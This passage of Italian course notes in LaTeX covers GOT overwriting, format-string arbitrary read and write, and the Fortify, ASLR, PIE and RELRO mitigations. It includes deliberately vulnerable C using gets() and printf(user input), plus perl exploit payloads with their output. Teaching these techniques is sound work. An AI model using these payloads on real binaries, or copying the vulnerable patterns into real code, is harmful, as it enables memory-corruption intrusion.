    
\includegraphics[width=.5\linewidth]{res/PLT_loading3.png}
\end{minipage}

\subsection{Memory courruption: GOT}

Per esser caricato dinamicamente dal loader, la xona di memoria del .got.plt deve essere mappata come eseguibile e scrivibile.
Questo permette di scrivere codice nella sezione di memoria del .got.plt (o .got) e alterare il comportamento dei simboli.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/GOT_corruption.png}
    \caption{}
\end{figure}

Supponiamo di avere il seguente codice:
\begin{lstlisting}[language=C]
    struct person{
        char age [4];
        char *name;
    };
    int main (...) {
        struct person p;
        p.name = malloc (20);
        gets(p.age);
        gets(p.name);
        if (atoi(p.age) < 18)
        printf("disclamer\n");
        return 0;
    }
\end{lstlisting}
Avremo il seguente comportamento:
\begin{lstlisting}[language=bash]
    gdb -q ./got

    (gdb) p atoi
    $1 = 0x80483f0 <atoi@plt >
    (gdb) r
    ^C
    (gdb) p system
    $1 = 0xb7e63310 <__libc_system >
    (gdb) q
\end{lstlisting}
Questo comportamento è sfruttabile per modificare l'indirizzo della funzione \textit{atoi} caricata nel .got.plt sostituendola con l'indirizzo di \textit{system} dalla libreria \textit{libc}:
\begin{lstlisting}[language=bash]
    perl -e 'print "id\x00\x00" ,\ 
    "\x24\xa0\x04\x08\n" ,\
    "\x10\x33\xe6\xb7"' | ./got

    uid =1000( vagrant) gid =1000( vagrant) groups =1000( vagrant) 
    disclamer
\end{lstlisting}
(\textbf{Ricorda:} sia \textit{atoi} sia \textit{system} hanno la stessa firma).
\begin{lstlisting}[language=C]
    int atoi(const char *nptr);
    int system(const char *command);
\end{lstlisting}

\subsection*{Memory corruption: string format}
La funzione \textbf{\textit{*printf}} può essere utilizzata per leggere o scrivere in modo arbitrario da un attaccante se posizionata nel posto sbagliato del codice.

Un esempio di uso sbagliato è il seguente:
\begin{lstlisting}[language=C]
    printf(argv [1]);
\end{lstlisting}
l'utente in questo modo potrà controllare il formato effettuando una fuga di informazioni o scrivendo in varie parti della memoria.
La funzione \textit{printf} è una variarg function, ciò significa che avrà un puntatore ad un array per prendere i vari elementi muovendosi dal puntatore al successi elemento.
\newline
\begin{minipage}{0.7\textwidth}
    \begin{lstlisting}[language=C]
        printf("%x %d %c %p\n", a);
    \end{lstlisting}
\end{minipage}
\begin{minipage}{0.5\textwidth}
    \centering
    \begin{tabular}{|c|}
        \hline
        a \\
        \hline
        \%x \\
        \hline
        \%d \\
        \hline
        \%p \\
        \hline
    \end{tabular}
\end{minipage}

L'utente, semplicemente fornendo il giusto formato, sarà in grado di leggere valori nello stack, relativi ai parametri della \textit{printf}.
\begin{lstlisting}[language=bash]
    ./vuln "%x %x %x %x"; echo
    
    b7fff000 804844b b7fd0000 8048440
\end{lstlisting}

Un elemento del formato standard è composto dalle seguenti parti:

\%[N\$][M]F dove:
\begin{itemize}
    \item \textit{\textbf{F}}, formato, effettua l'interpretazione dei parametri;
    \item \textit{\textbf{N}}, indica la posizione dei parametri;
    \item \textit{\textbf{M}}, indica il padding del formato o degli argomenti del paramtro d'interpretazione (e.g. pad hex numero di 8 zeri o quante cifre di un numero decimale stampare).
\end{itemize}

\begin{lstlisting}[language=C]
    printf("%1$02x %1 $02x %2$02x\n", 1, 2);
\end{lstlisting}

\begin{lstlisting}[language=bash]
    ./vuln

    01 01 02
\end{lstlisting}

Oltre a leggere è possibile utilizzare la \textit{printf} per scrivere valori arbitrari in memoria (l'opposto di \%s), per farlo bisognerà utilizzare il formato \%n.
Scriverà il numero di caratteri scritti dall'invoacazione della \textit{printf} nel valore puntatato dall'argomento.
\begin{lstlisting}[language=C]
    int charprinted;
    printf("ciao%n\n", &charprinted);
    printf("%d\n", charprinted);
\end{lstlisting}
\begin{lstlisting}[language=bash]
    ./ example

    ciao
    4
\end{lstlisting}

\subsection{Arbitrary read}
Utilizzando i concetti spiegati precedente potremo utilizzare \textit{printf} per costruire un arbitrary read:
\begin{lstlisting}[language=C]
    int main (...) {
        char userpass [128];
        char pass[] = "secretpass \0";
        printf("pass @ %p\n", pass);
        gets(userpass); printf(userpass);
        gets(userpass);
        if (! strcmp(pass , userpass )) printf("flag");
    }
\end{lstlisting}

\begin{lstlisting}[language=bash]
    perl -e 'print "\x70\xf6\xff\xbf %7\$s"' | ./ arbitrary_read
    
    pass @ 0xbffff670
    .... secretpass
\end{lstlisting}

\subsection{Arbitrary write}
Analogamente potremo costruire anche una arbitrary write, trovando l'indirizzo del parametro e utilizzando \textit{\%s} potremo stampare un valore semi-arbitrario della memoria.
\begin{lstlisting}[language=C]
    char pass[] = "secretpass";
    printf("pass @ %p\n", pass);
    gets(userpass); printf(userpass);
    if (! strcmp(pass , userpass )) printf("flag");
\end{lstlisting}

\begin{lstlisting}[language=bash]
    perl -e 'print "\x70\xf6\xff\xbf %65c%7\$n%7\$s|\nE\n"' |
    
    ./ arbitrary_read
    pass @ 0xbffff670
    .... p|E
    flag
\end{lstlisting}

\subsection{Mitigation}
Per completare il discorso sulla sicurezza finiremo a parlare degli ultimi sistemi non ancora menzionati:
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/mitigation_memory.png}
    \caption{}
\end{figure}

\subsubsection{Mitigation: Fortify}
\textbf{Fortify source} agginge alcuni test comuni (a tempo di compilazione) per rimuovere eventuali problemi di overflow da parte dei buffer delle funzioni, e.g. \textit{strcpy}.
Questo catturerà solo i comportamenti comuni per quella famiglia di compilatori e per le librerie compilate.
\begin{lstlisting}[language=bash]
    gcc -D_FORTIFY_SOURCE=1
\end{lstlisting}

\subsubsection{Mitigation: ASLR}
fare riferimento alla spiegazione precedente.

\subsubsection{Mitigation: PIE}
ASLR non converte gli indirizzi dei binari ma solo la parte dinamica del file ELF(lo stack, le variabili globali e le librerie caricate), quindi se abbiamo una funzione nella sezione \textit{.text} sarà possibile inserirla nel \textit{.got} o \textit{.plt} per poi eseguirla.
\begin{lstlisting}[language=C]
    void foo(void) { system("ls"); }
    int main(int argc , char **argv) {
        int i = 0;
        uint8_t *base = (uint8_t *) printf;
        uint32_t ** got_entry = (uint32_t **)( base +2);
        uint32_t *got_plt_entry = *got_entry;
        printf("GOT 0x%08x\n", (uint32_t)printf);
        printf("LIBC 0x%08x\n", *got_plt_entry);
        printf("FOO 0x%08x\n", (uint32_t)foo);
    }
\end{lstlisting}
\begin{lstlisting}
    ./test

    GOT 0x08048310
    LIBC 0xb759e410
    FOO 0x0804844d

    ./test

    GOT 0x08048310
    LIBC 0xb75db410
    FOO 0x0804844d
\end{lstlisting}

Per questa problematica si è pensato quindi di inserire il \textbf{PIE (Position Independent Executable)}, compilandolo in questo modo l'intero codice sarà randomizzato ed eseguito con indirizzi casuali.

\subsubsection{Mitigation: RELRO}
\textbf{RELRO (Relocation Read Only)} è una mitigazione applicata alle sezioni .got e .plt.
Nella versione parziale applica le seguenti politiche:
\begin{itemize}
    \item cambia il layout della memoria per essere meno vulnerabile agli attacchi;
    \item imposta il .got in modalità di sola lettura (ma non il .got.plt), le variabili globali esportate saranno protette.
\end{itemize}

La mitigazione RELRO ha anche un'implementazione totale che altre alle precedenti politiche ne aggiunge altre:
\begin{itemize}
    \item carica ogni funzione a tempo di caricamento (disabilita il lazy loading);
    \item imposta il .got.plt in modalità di sola lettura, la tabella delle funzioni dinamiche non potrà essere scritta;
\end{itemize}
